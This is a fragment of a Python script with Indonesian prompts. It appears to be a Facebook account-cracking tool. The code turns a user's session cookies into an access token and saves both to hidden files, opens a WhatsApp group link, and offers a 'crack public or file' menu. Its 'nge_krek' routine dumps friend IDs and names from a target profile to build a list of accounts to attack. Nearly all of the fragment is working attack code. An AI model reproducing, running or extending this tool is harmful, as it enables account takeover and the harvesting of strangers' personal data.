 							r.headers.update({'sec-fetch-mode': 'no-cors','referer': 'https://graph.facebook.com/','Host': 'graph.facebook.com','accept': '*/*','sec-fetch-dest': 'script','sec-fetch-site': 'cross-site',})
							response7 = r.get(status_url, cookies = {'cookie': your_cookies}).text
							access_token = re.search('"access_token": "(.*?)"', str(response7)).group(1)
							tokenew = open(".tokenakun.txt","w").write(access_token)
							cook= open(".cookiesakun.txt","w").write(your_cookies)
							print("\n└── \x1b[1;92mcookies valid login berhasil");exit()
			except Exception as e:
				print("\x1b[1;92m[×\x1b[1;92m]\033[93m └──\x1b[1;92mcookies telah kadaluarsa")
				os.system('rm -rf .tokenakun.txt && rm -rf .cookiesakun.txt')
				print(e)
				time.sleep(3)
				back()
	except:pass

###----------[ BAGIAN MENU ]----------###
def menu(id):
	try:
		cok = open('.cookiesakun.txt','r').read()
	except IOError:
		os.system('rm -rf .tokeneakun.txt && rm -rf .cookiesakun.txt')
		baz_anim(f'└──{mer} cookies telah kadaluarsa ster')
		waktu(1)
		login_men()
	os.system('clear')
	os.system('xdg-open https://chat.whatsapp.com/Bk9n3OYSK0h8yc4oHgHkZN')
	waktu(1)
	banner()
	print(f'{xxx}─────────────────────────────')
	print(f'{xxx}└── crack publik atau file')
	helpbas = input(f'{xxx}└── : ')
	if helpbas in ['publik','Publik','public']:
		nge_krek()
	elif helpbas in ['file','File','files']:
		file_dump()
	else:
		baz_anim(f'{puti}└──{mer} masukkan dengan benar')
		baz_anim(f'{puti}└──{mer} input publik atau file')

###----------[ DUMP ID PUBLIK ]----------###
def nge_krek():
	try:
		cok = open('.cookiesakun.txt','r').read()
	except IOError:
		os.system('rm -rf .tokeneakun.txt && rm -rf .cookiesakun.txt')
		baz_anim(f'└──{mer} cookies telah kadaluarsa ster')
		exit()
	print(f'{xxx}─────────────────────────────')
	idnyanih = input(f'└── id : ')
	try:
		ambilid = requests.get('https://graph.facebook.com/v1.0/'+idnyanih+'?fields=friends.limit(5001)&access_token='+tokenefb[0],cookies={'cookie': cok}).json()
		for proses in ambilid['friends']['data']:
			try:id.append(proses['id']+'|'+proses['name'])
			except:continue
		print(f'└── terkumpul : '+str(len(id)))
		atur_dulu()
	except requests.exceptions.ConnectionError:
		baz_anim(f'{puti}└──{mer} koneksi terputus')
		exit()
	except (KeyError,IOError):
		baz_anim(f'{puti}└──{mer} teman tidak publik')
		baz_anim(f'{puti}└──{mer} ganti id target nya')
		waktu(1)